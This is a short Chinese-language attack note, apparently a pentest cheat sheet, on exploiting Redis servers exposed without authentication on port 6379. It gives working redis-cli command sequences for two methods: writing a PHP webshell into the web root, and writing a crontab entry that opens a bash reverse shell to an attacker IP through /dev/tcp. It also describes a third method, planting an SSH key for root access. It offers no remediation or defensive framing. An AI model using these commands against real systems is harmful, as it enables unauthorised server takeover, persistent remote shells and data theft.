


# redis 未授权

**通过远程6379端口未授权连接到redis数据库**

## 大致方式

```
1、直接写入webshell
	a、redis对网站根目录有写入权限
	b、需要知道网站的根目录(也可以猜测)
2、通过写入计划任务，反弹shell
	需要对/etc/crontab 计划任务文件有修改权限
3、通过"公私钥"认证获取root权限(这样可以不用知道root密码)
	当redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录目标服务器。
```

### 前提

```
1、redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网；(高版本默认有保护模式,不让远程登录)
2、没有设置密码认证，可以免密码远程登录redis服务。 
```

### 1、直接写入webshell

**条件**

```
1、redis对网站根目录有写入权限
2、需要知道网站的根目录(也可以猜测)
```

```
set x "<?php phpinfo();?>"  设置变量
config set dir C:/phpStudy/WWW/ 设置写入目录
config set dbfilename redis.php 设置写入文件命令
save 写入
redis-cli.exe -h 192.168.1.169 -p 6379
```





### 2、redis通过写入计划任务，反弹shell

**cat /etc/crontab**

**redis 关闭保护模式**

```
./redis-cli -h 127.0.0.1 -p 6379 高版本默认会有保护模式
远程连接
redis-cli.exe -h 192.168.1.169 -p 6379

set shell "\n\n*/1 * * * * bash -i>&/dev/tcp/192.168.1.41/10875 0>&1\n\n"

config set dir /etc/

config set dbfilename crontab

save
```

### 3、通过"公私钥"认证获取root权限

```
当redis以root身份运行，可以给root账户写入SSH公钥文件，直接通过SSH登录目标服务器。
```


